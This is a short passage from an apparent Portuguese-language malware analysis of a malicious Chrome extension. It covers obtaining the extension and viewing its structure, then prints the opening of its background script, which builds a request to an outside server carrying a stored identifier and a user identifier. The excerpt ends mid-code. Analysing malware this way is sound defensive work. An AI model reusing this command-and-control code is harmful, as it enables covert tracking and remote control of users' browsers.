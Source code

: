 ![Extensão maliciosa no chrome web store](img/image-6.png)

Para realizar o download da extensão, utilizou-se a plataforma Chrome-Stats (acessível em https://chrome-stats.com/). Após a extração do arquivo baixado, a estrutura interna da extensão é exibida conforme demonstrado na figura abaixo:

![Estrutura da extensão](img/image-7.png)

O arquivo mais importante é o `run-back.js`:

```js
let e = "",
  n = "https://ranchocentral.com/",
  t = "",
  a = "",
  o = "";

function r(e, t) {
  chrome.storage.sync.get("eindeutigeKennung", function (o) {
    a = o.eindeutigeKennung;

    const r =
        n +
        "comando_temporario.php?eindeutigeKennung=" +
        a +
        "&k=" +
        e.identificacaoUsuario,
      s = {
        method: t,
```